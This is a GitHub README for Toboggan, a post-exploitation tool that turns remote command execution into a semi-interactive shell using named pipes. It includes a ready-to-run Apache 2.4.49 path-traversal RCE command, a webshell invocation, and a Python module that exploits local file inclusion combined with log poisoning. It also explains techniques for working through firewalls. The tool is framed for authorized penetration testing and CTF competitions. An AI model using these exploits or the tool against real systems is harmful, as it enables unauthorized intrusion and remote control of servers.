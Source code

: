 # Toboggan

🛝 Slide into post-exploitation from RCE with ease! Toboggan is your go-to tool that wraps your remote command execution into a semi-interactive shell, making the post-exploitation phase a breeze.

<p align="center">
    <img width="350" src="/media/toboggan-coin.jpg" alt="Material Bread logo">
</p>

Getting started with toboggan is as smooth. You can do this by pulling directly from the repository:
```shell
pip install 'toboggan@git+https://github.com/n3rada/toboggan.git'
``` 

Or, by using [`pipx`](https://pypa.github.io/pipx/) - and you should -, give this a whirl:
```shell
pipx install 'git+https://github.com/n3rada/toboggan.git'
```

Thus, you can execute it with the following command:
```shell
toboggan -m /path/to/your/rce.py -i
```

This command loads your rce.py module and propels you into an interactive session for some remote fun. If you're in the mood for a subtler, semi-interactive experience, just drop the `-i` option.

## Built-in modules
### WebShell
Don't have a proper Python3 module on hand? Struck gold with a simple webshell.php? No worries! If your webshell just needs a cmd argument to spill the beans, do the following:
```shell
toboggan -u 'http://192.168.193.19/tmp/webshell.php?cmd'
```

Safety first. Always password-protect your shells. If you're the cautious type (and you should be), use Toboggan like this:
```shell
toboggan -u 'http://192.168.193.19/tmp/webshell.php?cmd' -p 'password'='@l/=$,dsfsdfm'
```

### System command
If it's a waste of time for you to build a python3 module because you don't like programming, and the vulnerability is easily exploitable with a command line, don't worry, you can use the `-o` or `--os` parameter and pass your command line with the `||cmd||` placeholder. For example, if you encounter a server running with `Apache httpd 2.4.49`, you can directly use:
```shell
toboggan -o 'curl -s --path-as-is -d "echo Content-Type: text/plain; echo; ||cmd||" "http://192.168.216.188/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"'
```

## `rce.py` module
An RCE (Remote Code Execution) Python3 module is essentially a Python3 source code crafted to manage your remote code execution. For a module to be compatible with Toboggan, it **must** include a method named **execute**. This method **should have two parameters**: command of type str and timeout of type float.

Here's an example of an RCE module that leverages Log Pollution combined with Local File Inclusion. Admittedly, it's a bit pesky to replay:
```python
# Buit-in imports
import re

# Third party library imports
import httpx

def execute(command: str, timeout: float = None) -> str:
    # Remove the User-Agent header
    response = httpx.get(
        url="http://beachvolley/pong/index.php",
        params={
            "page": r"\..\..\..\..\..\..\..\..\..\..\\xampp\apache\logs\access.log",
            "cmd": command,
        },
        # ||BURP||
        timeout=timeout,
        verify=False,
    )

    # Check if the request was successful
    response.raise_for_status()

    if match := re.search(
        pattern=r'\|\|START_CMD\|\|(.+?)\|\|END_CMD\|\|',
        string=response.text,
        flags=re.IGNORECASE | re.DOTALL
    ):
        return match.group(1).strip()
```

Remember, this setup is module-dependent. For instance, if your module necessitates `proxychains`, you can effortlessly invoke `toboggan` as shown below:
```shell
proxychains -q toboggan /path/to/your/rce.py
```

### Interactivity methods used

#### Unix
The Unix environment offers a plethora of inter-process communication (IPC) mechanisms. One such fascinating tool is the mkfifo, colloquially known as a "named pipe". This one-way IPC is often a go-to when one wishes to emulate a remote interactive shell session over an inherently non-interactive medium - think HTTP requests or rudimentary command execution interfaces.

At its heart, a named pipe, or FIFO (First In, First Out), is an avenue to smoothly transition through an RCE in restrictive scenarios, such as those barricaded behind firewalls, making it feel almost like you're operating in a pseudo-TTY.

**Why the insistence on a separate polling thread**? Imagine sending a command with an indefinite waiting period (like the notorious `top` or the sluggish `sleep 10000`). Without a distinct thread to handle these, the main application would be ensnared in a deadlock, patiently awaiting the command's conclusion. Enter the read thread. Its primary role is to juggle the outputs of these prolonged commands, ensuring the main loop is unimpeded and ever-ready for fresh input or commands.

#### Windows
Not done yet

## Contributing

`toboggan` is an open-source project, and I welcome contributions. Feel free to submit issues, feature requests, or pull requests on the GitHub repository. In order to create a Pull Request, you can follow those steps:
- Fork the project
- Create your feature branch (`git checkout -b my-new-feature`)
- Commit your changes (`git commit -Sam 'Added some feature'`)
- Push to the branch (`git push origin my-new-feature`)
- Create new **Pull Request**

### Setup

Recommended way for developping inside this project is by using `poetry`. Once this repository cloned, you just have to type `poetry shell` to get your environment ready. 

### Test your implementation
If you want to create a `pipx` special installation, you can do the following command inside the root of the project:
```shell
pipx install . --suffix '-test'
```

### Building a proper `pip` package
If you want to try building the tool with a real package, you firstly run `poetry build` and then:
```shell
python3 -m pip install dist/toboggan*.whl --force-reinstall
```

---

_N.B._ If you really want to use old maneers, you can still create a `requirements.txt` file using the following `poetry` commands:
```shell
poetry export -f requirements.txt > requirements.txt
```

## Disclaimer
Toboggan is intended for use in legal penetration testing, Capture The Flag (CTF) competitions, or other authorized and ethical security assessments. Unauthorized use of this tool on systems you do not own or without proper authorization may be illegal. Please use "Toboggan" responsibly and in compliance with applicable laws and regulations.

## License
This project is licensed under the MIT License. See the LICENSE file for more details.
